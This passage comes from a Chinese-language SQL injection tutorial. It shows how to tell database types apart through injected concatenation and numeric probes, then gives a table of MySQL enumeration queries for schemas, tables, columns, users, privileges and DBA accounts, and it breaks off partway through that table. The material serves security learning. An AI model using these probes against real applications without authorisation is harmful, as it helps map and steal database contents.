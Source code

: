 asp : Access/SQLServer

php : Mysql

jsp : Oracle

3. 利用语句探测数据库

一种最可靠的方法是根据数据库连接字符串方式的不同进行识别。

如我们查询字符串`farmsec`得到了一个结果，可以在请求中提交特殊的值，测试用各种方法连接，以生成`farmsec`字符串。如过查询结果相同，就可以确定是哪一种数据库。

```
Oracle:    'farm'||'sec'
MS-SQL:    'farm'+'sec'
MySQL:     'farm' 'sec'
PostgreSQL：'farm' || 'sec'
```

如果注入数字数据，可以使用下面的攻击语句来识别字符串。

每个语句在其对应的数据库中求值结果为0，在其他数据库中则会报错。

```
Oracle:    BITAND(1,1)-BITAND(1,1)
MS-SQL:    @@PACK_RECEIVED-@@PACK_RECEIVED
MySQL:     CONNECTION_ID()-CONNECTION_ID()
```

### 1.5 各类数据库注入语句

不同的数据库，需要用不同的sql语句注入。

#### 1.5.1 MySQL数据库

| 释义          | SQL语句                                                      | 其他                  |
| ------------- | ------------------------------------------------------------ | --------------------- |
| 当前数据库    | SELECT database()                                            | -                     |
| 所有数据库    | SELECT schema\_name FROM information\_schema.schemata        | #版本>5.0             |
| -             | SELECT distinct(db) FROM mysql.db                            | #管理员权限才可以执行 |
| 查询表名      | SELECT table\_schema,table\_name FROM information\_schema.tables WHERE table\_schema != ‘mysql’ AND table\_schema != ‘information\_schema’ | -                     |
| 查询列名      | SELECT table\_schema, table\_name, column\_name FROM information\_schema.columns WHERE table\_schema != ‘mysql’ AND table\_schema != ‘information_schema’ | -                     |
| 获取版本      | SELECT @@version                                             | -                     |
| 当前用户      | SELECT user()                                                | -                     |
| -             | SELECT system_user()                                         | -                     |
| 用户权限      | SELECT grantee, privilege\_type, is\_grantable FROM information\_schema.user\_privileges | #用户权限             |
| -             | SELECT grantee, table\_schema, privilege\_type FROM information\_schema.schema\_privileges | #数据库权限           |
| -             | SELECT table\_schema, table\_name, column\_name, privilege\_type FROM information\_schema.column\_privileges | #字段的权限           |
| 列出DBA账户   | SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’     | -                     |
| 选择第N行     | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0    | #行从0开始编号        |
| -             | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1    | #行从0开始编号        |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1)                                  | #返回c                |
| ASCII值-字符  | SELECT char(65)                                              | #返回A                |
| 字符-ASCII值  | SELECT ascii(‘A’)                                            | #返回65               |
| 字符串连接    | SELECT CONCAT(‘A’,‘B’)                                       | #返回AB               |
| -             | SELECT CONCAT(‘A’,‘B’,‘C’)                                   | #返回ABC              |